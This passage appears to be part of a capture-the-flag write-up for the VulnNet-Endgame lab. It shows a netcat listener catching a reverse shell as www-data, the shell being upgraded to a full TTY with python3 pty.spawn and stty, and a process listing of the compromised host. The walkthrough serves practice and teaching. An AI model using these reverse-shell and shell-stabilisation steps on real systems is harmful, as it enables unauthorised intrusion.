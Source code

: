 <img width="1179" height="228" alt="image" src="https://github.com/user-attachments/assets/cff7d158-c15c-4ca8-85d3-24af2dd44554" />

<br>
<br>

<img width="1179" height="228" alt="image" src="https://github.com/user-attachments/assets/20a2b506-2330-4658-af66-3ce3e3d985a2" />


<br>
<br>
<h2>www-data</h2>

```bash
:~/VulnNet-Endgame# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on xx.xxx.x.xx 52044
Linux vulnnet-endgame 5.4.0-120-generic #136~18.04.1-Ubuntu SMP Fri Jun 10 18:00:44 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 xx:xx:xx up  2:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnnet-endgame:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/VulnNet-Endgame# stty raw -echo; fg
nc -nlvp 1234

www-data@vulnnet-endgame:/$ export TERM=xterm
www-data@vulnnet-endgame:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnnet-endgame:/$ pwd
/
www-data@vulnnet-endgame:/$ 
```


```bash
www-data@vulnnet-endgame:/$ ps -eo pid,user,command
  PID USER     COMMAND
 ...
   326 systemd+ /lib/systemd/systemd-networkd
  410 root     [cryptd]
  482 root     /usr/sbin/acpid
  486 root     /usr/sbin/cron -f
  490 root     /usr/lib/accountsservice/accounts-daemon
  491 avahi    avahi-daemon: running [vulnnet-endgame.local]
  493 message+ /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopid
  497 avahi    avahi-daemon: chroot helper
  506 root     /usr/lib/udisks2/udisksd
  508 syslog   /usr/sbin/rsyslogd -n
  511 root     /usr/sbin/NetworkManager --no-daemon
  514 root     /usr/lib/snapd/snapd
  520 root     /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-trigg
  521 root     /lib/systemd/systemd-logind
  522 root     /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
  529 root     /usr/sbin/ModemManager --filter-policy=strict
  614 root     /usr/lib/policykit-1/polkitd --no-debug
  641 systemd+ /lib/systemd/systemd-resolved
  656 root     /sbin/dhclient -1 -4 -v -pf /run/dhclient.eth0.pid -lf /var/lib/d
  752 root     /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrad
  780 whoopsie /usr/bin/whoopsie -f
  782 root     /usr/bin/amazon-ssm-agent
  791 kernoops /usr/sbin/kerneloops --test
```